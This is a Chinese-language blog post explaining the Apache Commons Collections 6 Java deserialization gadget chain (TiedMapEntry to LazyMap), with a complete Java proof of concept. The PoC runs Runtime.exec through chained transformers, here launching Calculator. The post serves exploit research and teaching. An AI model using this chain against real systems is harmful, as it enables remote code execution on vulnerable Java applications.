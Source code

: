 # CommonsCollections6链详解


世界上最好用的 CC 链
&lt;!--more--&gt;
## CommonsCollections6 详解
CommonsCollections1 的链子调用了`LazyMap`类中的`transform()`方法，于是找一个任意类调用`get()`方法的地方，这里换到了`TideMapEntry`类
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151516691.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151516403.png)
这里的`hashCode()`方法里调用了`getValue()`方法里面调用了`get()`方法，并且`map`可控，这里的`hashCode()`很熟悉，因为在`URLDNS`链中`HashMap`类里的`readObject()`方法调用到了`hashCode()`方法
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151518932.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151518990.png)
于是构造`poc`
```java
package org.example.CommonsCollections;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.FileInputStream;  
import java.io.FileOutputStream;  
import java.io.ObjectInputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CommonsCollections6 {  
    public static void main(String[] args) throws Exception{  
  
  
        Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer(&#34;getMethod&#34;, new Class[]{String.class, Class[].class}, new Object[]{&#34;getRuntime&#34;, null}),  
                new InvokerTransformer(&#34;invoke&#34;, new Class[]{Object.class, Object[].class}, new Object[]{null, null}),  
                new InvokerTransformer(&#34;exec&#34;, new Class[]{String.class}, new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})  
        };  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
  
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();  
        Map&lt;Object, Object&gt; lazymap = LazyMap.decorate(map, new ConstantTransformer(1));  
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, &#34;test&#34;);  
  
        HashMap&lt;Object, Object&gt; map2 = new HashMap&lt;&gt;();  
        map2.put(tiedMapEntry,&#34;test1&#34;);  
  
        lazymap.remove(&#34;test&#34;);  
  
        Class c = LazyMap.class;  
        Field factoryField = c.getDeclaredField(&#34;factory&#34;);  
        factoryField.setAccessible(true);  
        factoryField.set(lazymap,chainedTransformer);  
        //serialize(map2);  
        unserialize(&#34;ser.bin&#34;);  
  
    }  
    public static void serialize(Object obj) throws Exception{  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));  
        oos.writeObject(obj);  
    }  
  
    public static Object unserialize(String filename) throws Exception{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));  
        Object obj = ois.readObject();  
        return obj;  
  
    }  
}
```
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151528159.png)


---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/commonscollections6%E9%93%BE%E8%AF%A6%E8%A7%A3/  

